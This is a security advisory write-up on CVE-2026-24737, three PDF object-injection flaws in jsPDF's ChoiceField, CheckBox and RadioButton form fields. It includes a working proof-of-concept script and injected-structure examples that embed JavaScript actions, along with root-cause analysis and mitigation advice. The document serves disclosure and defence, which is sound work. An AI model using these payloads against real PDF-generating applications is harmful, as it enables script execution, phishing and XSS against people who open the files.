


# CVE-2026-24737: PDF Injection Vulnerabilities in jsPDF

> An input validation vulnerability in jsPDF library where unsanitized input in PDF form fields allows arbitrary PDF object injection and JavaScript execution.

---

## TL;DR

The jsPDF library fails to properly sanitize user input when creating PDF form fields (ChoiceField, CheckBox, RadioButton). Attackers can inject arbitrary PDF objects and JavaScript code that executes when the PDF is opened in vulnerable readers leading to XSS attacks in PDF context.

---

## Background

jsPDF is a widely-used JavaScript library for generating PDF documents client-side. It provides functionality to create interactive PDF forms with various field types.

PDF files support embedded JavaScript through Action dictionaries, which can be triggered by events such as:
- Document open
- Field focus/blur
- Mouse clicks
- Form submission

When form field properties are not properly sanitized, attackers can break out of expected PDF structures and inject malicious PDF objects.

---

## The Issue

jsPDF contains 3 distinct input validation vulnerabilities affecting form field creation:

1. **ChoiceField Array Breakout** — The `addOption()` method fails to sanitize input starting with `/`, allowing attackers to close PDF arrays and inject arbitrary PDF keys
2. **CheckBox Appearance State Injection** — The `appearanceState` property accepts raw PDF injection when strings resemble PDF Name Objects
3. **RadioButton Appearance State Injection** — Shares the same vulnerability as CheckBox through inherited parent logic

All three vulnerabilities allow injection of `/AA` dictionaries containing JavaScript payloads.

---

## Proof of Concept

The following PoC demonstrates all 3 vulnerabilities in a single PDF file

```javascript
const { jsPDF } = require("jspdf");
const doc = new jsPDF();

// 1. ChoiceField Injection
var choice = new doc.AcroFormChoiceField();
choice.T = "Vuln_ChoiceField";
choice.x = 20; choice.y = 20; choice.width = 100; choice.height = 20;

// Payload breakdown:
// "/dummy]" -> Closes the previous PDF array
// "/AA ..." -> Injects an Additional Action dictionary
// "/Garbage [" -> Opens a new array to keep PDF structure valid
const payloadChoice = "/dummy] /AA << /Fo << /S /JavaScript /JS (app.alert('XSS Triggered: ChoiceField')) >> >> /Garbage [";
choice.addOption(payloadChoice);
doc.addField(choice);

// 2. CheckBox Injection
var check = new doc.AcroFormCheckBox();
check.T = "Vuln_CheckBox";
check.x = 20; check.y = 50; check.width = 20; check.height = 20;

check.appearanceState = "Off /AA << /Fo << /S /JavaScript /JS (app.alert('XSS Triggered: CheckBox')) >> >>";
doc.addField(check);

// 3. RadioButton Injection
var radio = new doc.AcroFormRadioButton();
radio.T = "Vuln_RadioButton";
radio.x = 60; radio.y = 50; radio.width = 20; radio.height = 20;

radio.appearanceState = "Off /AA << /Fo << /S /JavaScript /JS (app.alert('XSS Triggered: RadioButton')) >> >>";
doc.addField(radio);

doc.save("poc_exploit.pdf");
```

### Attack Execution

When the generated PDF is opened in any browser's PDF viewer:


*Figure 1: JavaScript alert triggered from ChoiceField on document load*


*Figure 2: JavaScript alert triggered when focusing on CheckBox*


*Figure 3: JavaScript alert triggered when focusing on RadioButton*

---

## Technical Analysis

### Vulnerability 1: ChoiceField Array Breakout

The `addOption()` method in jsPDF constructs a PDF array of options but fails to validate input that begins with `/`

```javascript
addOption: function(value) {
    this.options.push(value); // No sanitization
}
```

**Expected PDF structure:**
```
/Opt [/Option1 /Option2 /Option3]
```

**Injected PDF structure:**
```
/Opt [/dummy] /AA << /Fo << /S /JavaScript /JS (malicious_code) >> >> /Garbage [/Option2]
```

The array is closed prematurely with `]` allowing injection of arbitrary PDF keys.

### Vulnerability 2 & 3: Appearance State Injection

CheckBox and RadioButton classes allow direct PDF injection through the `appearanceState` property:

```javascript
set appearanceState(value) {
    this._appearanceState = value; // No validation
}
```

**Expected PDF structure:**
```
/AS /Off
```

**Injected PDF structure:**
```
/AS /Off /AA << /Fo << /S /JavaScript /JS (malicious_code) >> >>
```

Since PDF Name Objects can contain complex structures, the lack of validation allows attackers to inject complete Action dictionaries.

---

## Impact

This vulnerability enables:

- **Client-side code execution** in PDF context
- **Phishing attacks** through malicious alerts/dialogs
- **PDF-based XSS** in web applications that generate PDFs using jsPDF
- **Social engineering** through trusted PDF files

---

## Root Cause

The vulnerabilities stem from:

1. Missing input validation on form field properties
2. Lack of PDF special character escaping
3. Assumption that developer input is trusted
4. No security boundary between user data and PDF structure

The library treats form field values as raw PDF syntax rather than data to be escaped.

---

## Mitigation

- Implement strict input sanitization for all form field properties
- Escape PDF special characters: `/ [ ] < > ( ) \`
- Validate and sanitize all user input before passing to jsPDF
- Avoid using user input in `addOption()` and `appearanceState`

---

## Disclosure Timeline

- **2026-01-24** — Vulnerability discovered and reported to jsPDF maintainers
- **2026-01-27** — CVE-2026-24737 reserved

---

## References

- [CVE Record (CVE-2026-24737)](https://www.cve.org/CVERecord?id=CVE-2026-24737)
- [jsPDF Security Advisory](https://github.com/parallax/jsPDF/security/advisories/GHSA-pqxr-3g65-p328)
- [PDF Reference - JavaScript Actions](https://opensource.adobe.com/dc-acrobat-sdk-docs/pdfstandards/PDF32000_2008.pdf)
- [OWASP - PDF Security](https://owasp.org/www-community/vulnerabilities/PDF_Injection)